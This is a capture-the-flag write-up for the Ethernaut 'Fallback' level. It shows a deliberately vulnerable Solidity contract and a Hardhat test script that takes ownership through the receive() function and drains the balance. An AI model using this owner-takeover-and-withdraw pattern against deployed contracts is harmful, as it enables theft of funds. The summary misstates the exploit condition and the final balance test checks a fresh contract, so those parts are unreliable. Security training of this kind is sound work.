 # Level 1 : Fallback Contract

## Contract Explanation

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}

```

### Contract Overview
The contract contains:
- A `mapping` that associates an address with its contribution in ethers.
- An `owner` who is the deployer of the contract. The owner is initially assigned 1000 ethers in the constructor.

### Key Functions
1. **Constructor:**
   - The contract assigns the deployer as the `owner`.
   - The owner is credited with a starting contribution of `1000 ether`.

2. **Modifier: `onlyOwner`:**
   - Ensures that only the contract `owner` can execute certain functions.

3. **Function: `contribute`:**
   - The function is `payable`, meaning it accepts ether contributions.
   - Contributions must be less than `0.001 ether`.
   - The `contributions` mapping is updated with the amount contributed.
   - If a user's contribution exceeds the owner's contribution, the ownership is transferred to the contributor.

4. **Function: `getContribution`:**
   - Returns the contribution of a particular user.

5. **Function: `withdraw`:**
   - Only the owner can withdraw the contract's balance.

6. **Fallback Function: `receive`:**
   - Changes the ownership of the contract if the contributor sends any ether and has made a contribution.

### Task
1. **Claim ownership of the contract.**
2. **Reduce the contract balance to zero.**

## Solution

### Hardhat Test Script

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Fallback contract", function () {
    let fallbackContract;
    let owner;
    let addr1;

    beforeEach(async function () {
        [owner, addr1, addr2] = await ethers.getSigners();
        const Fallback = await ethers.getContractFactory("Fallback");
        fallbackContract = await Fallback.deploy(); 
    });

    it("should set deployer as initial owner and contribution", async function () {
        expect(await fallbackContract.owner()).to.equal(owner.address);
        const initialContribution = await fallbackContract.contributions(owner.address);
        expect(initialContribution).to.equal(ethers.parseEther("1000"));
    });

    it("should allow contribution < 0.001 ether and update contributions", async function () {
        const value = ethers.parseEther("0.0005");
        await fallbackContract.connect(addr1).contribute({ value });
        const contribution = await fallbackContract.contributions(addr1.address);
        expect(contribution).to.equal(value);
    });

    it("should not allow contribution >= 0.001 ether", async function () {
        const value = ethers.parseEther("0.001");
        await expect(
            fallbackContract.connect(addr1).contribute({ value })
        ).to.be.reverted;
    });

    it("should change owner when contribution exceeds current owner's and fallback is triggered", async function () {
        const value = ethers.parseEther("0.0008");
        await fallbackContract.connect(addr1).contribute({ value });
        
        // Trigger fallback function
        await addr1.sendTransaction({
            to: fallbackContract.target,
            value: ethers.parseEther("0.0001"), 
        });

        await fallbackContract.connect(addr1).withdraw();

        // Verify new owner
        expect(await fallbackContract.owner()).to.equal(addr1.address);
    });

    it("should ensure contract balance is zero", async function() {
        let contractBalance = await ethers.provider.getBalance(fallbackContract);
        expect(contractBalance).to.be.eq("0");
    });
});
```
## Summary 
- The test successfully demonstrates the process of claiming ownership and reducing the contract's balance to zero.
- The owner of the contract can be changed if a user contributes more than the initial owner and triggers the fallback function.
- After ownership is transferred, the contract's balance is drained by the new owner.

## Github Repository 
- You can view and explore the code on my GitHub repository:
- [GitHub Link](https://github.com/0xC1ph3r-08/Ethernaut-Challenges/tree/main)